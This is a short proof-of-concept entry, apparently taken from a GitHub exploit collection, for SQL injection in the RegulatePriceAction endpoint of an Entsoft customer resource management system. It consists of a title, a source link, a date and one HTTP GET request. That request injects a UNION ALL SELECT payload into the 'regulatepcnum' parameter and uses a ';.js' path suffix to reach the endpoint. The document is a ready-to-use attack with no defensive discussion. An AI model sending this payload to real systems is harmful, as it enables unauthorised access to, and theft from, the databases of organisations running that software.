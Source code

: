 # zdet_RegulatePriceAction_sqli


from: https://github.com/wy876/POC/blob/main/%E6%B5%99%E5%A4%A7%E6%81%A9%E7%89%B9%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F-RegulatePriceAction%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5.md

2024.4.8 @2

```
GET /entsoft/RegulatePriceAction.entsoft;.js?method=getRegulatePricedlist&regulatepcnum=1'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,NULL,111*111--+aaaa HTTP/1.1
```

